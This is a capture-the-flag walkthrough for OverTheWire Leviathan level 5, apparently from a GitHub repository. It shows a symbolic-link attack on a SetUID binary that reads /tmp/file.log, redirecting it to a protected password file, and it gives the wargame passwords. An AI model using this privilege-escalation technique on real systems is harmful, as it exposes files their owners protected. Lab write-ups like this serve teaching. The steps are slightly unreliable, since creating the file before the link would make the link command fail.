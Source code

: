 # 🐉 OverTheWire Leviathan CTF – Level 6  

## 🌐 **Challenge Description**  
Leviathan is a Linux-based wargame focused on basic Unix commands and privilege escalation.  
👉 Levels can be accessed via SSH on port **2223**.  

---

## 🎯 **Goal**  
- Exploit a symbolic link vulnerability to read a restricted file and retrieve the next password.  

---

## 🌊 **Level 6 Details**  
| **Level** | **Username** | **Password** | **Command to Login** |
|:---------|:-------------|:------------|---------------------|
| Level 6  | leviathan5   | 0dyxT7F4QD   | `ssh leviathan5@leviathan.labs.overthewire.org -p 2223` |

---

## 🚀 **Solution**  

### **Step 1: Connect to the Server**  
Use SSH to connect to the Leviathan server:  

```bash
ssh leviathan5@leviathan.labs.overthewire.org -p 2223
```

- **Username:** `leviathan5`  
- **Password:** `0dyxT7F4QD`  

👉 SSH allows us to securely connect to the server using port **2223**.  

---

### **Step 2: List All Files**  
Once logged in, list all files (including hidden ones):  

```bash
ls -la
```

**Output Example:**

![ls-la](https://github.com/user-attachments/assets/01056f00-2caa-4bb4-93ff-1dec548929a7)


✅ **Findings:**  
- There’s an executable file named **`leviathan5`**.  
- It has **SetUID** permissions, meaning it runs with the privileges of the file owner (in this case, `leviathan6`).  

---

### **Step 3: Analyze the Binary Using `ltrace`**  
Use `ltrace` to analyze system calls:  

```bash
ltrace ./leviathan5
```

**Output Example:**

![ltrace](https://github.com/user-attachments/assets/931bf494-c576-4833-b64b-b3cd5055565a)


✅ **Key Findings:**  
- The program is trying to open `/tmp/file.log` in **read mode**.  
- If we can control `/tmp/file.log`, we can make it point to the next password file.  

---

### **Step 4: Create a Symbolic Link**  
1. First, create an empty `/tmp/file.log` file:  

```bash
touch /tmp/file.log
```

2. Create a symbolic link pointing to the password file:  

```bash
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
```

3. Confirm the symbolic link was created:  

```bash
ls -la /tmp/file.log
```

✅ **Findings:**  
- `/tmp/file.log` now points to `/etc/leviathan_pass/leviathan6`.  

---

### **Step 5: Execute the Binary**  
Run the binary again:  

```bash
./leviathan5
```

**Output Example:**

![Password](https://github.com/user-attachments/assets/57973ca1-9e63-45ec-9e24-ed5b297e5ca0)


✅ **Success:**  
- The binary reads the symbolic link and outputs the content of `/etc/leviathan_pass/leviathan6` (the password).  

---

### **Step 6: Read the Next Level Password**  
The output is the password for **Leviathan Level 6**.  

---

## ✅ **Password for Leviathan Level 6**  
```bash
szo7HDB88w
```

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Using `ltrace` | ![ltrace](https://github.com/user-attachments/assets/931bf494-c576-4833-b64b-b3cd5055565a) |  
| Step 4 – Creating Symbolic Link | ![Password](https://github.com/user-attachments/assets/57973ca1-9e63-45ec-9e24-ed5b297e5ca0) |  

---

## 💡 **Lessons Learned**  
✔️ **Symbolic Link Attack:**  
- The program was reading a fixed file path in `/tmp/`.  
- By creating a symbolic link, we redirected it to the password file.  

✔️ **SetUID Exploit:**  
- The binary executed with elevated privileges due to the **SetUID** bit.  
- This allowed us to access restricted files.  

---

## 🎯 **Next Level**  
Use the password to access **Leviathan Level 6**:  
👉 [http://leviathan.labs.overthewire.org](http://leviathan.labs.overthewire.org)  

---
